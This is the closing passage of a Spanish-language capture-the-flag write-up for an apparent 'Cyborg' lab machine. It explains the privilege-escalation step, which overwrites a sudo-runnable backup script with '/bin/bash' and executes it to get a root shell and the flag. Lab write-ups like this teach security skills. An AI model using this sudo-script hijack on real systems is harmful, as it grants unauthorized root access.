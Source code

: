 **Comando 4: Sobrescribir el contenido del archivo con la ruta correcta**

```bash
echo "/bin/bash" > /etc/mp3backups/backup.sh
```

- **echo "/bin/bash"**: Imprime la cadena `"/bin/bash"`.
- **>**: Redirecciona la salida del comando anterior al archivo especificado, sobrescribiendo su contenido.
- **/etc/mp3backups/backup.sh**: Archivo donde se escribirá la cadena.

El comando sobrescribe el contenido del archivo `backup.sh` con la cadena `"/bin/bash"`.

**Comando 5: Ejecutar el archivo como superusuario nuevamente**

```bash
sudo /etc/mp3backups/backup.sh
```

- **sudo**: Ejecuta un comando con privilegios de superusuario.
- **/etc/mp3backups/backup.sh**: Archivo que se ejecuta.

**Resultado del Comando**

Esta vez, el archivo `backup.sh` contiene la línea `"/bin/bash"`, que es una ruta válida al ejecutable de Bash. Ejecutar el script con `sudo` abrirá un intérprete de Bash con privilegios de super usuario `root`.

Una vez con permiso de `root`, ingrese al directorio Root, y pude ver la flag final:

![](/images/cyborg/Pasted image 20240715160255.png)

tHanks f0r read1ng w1th L0v3 Isu <3

And H4ppy H4cking!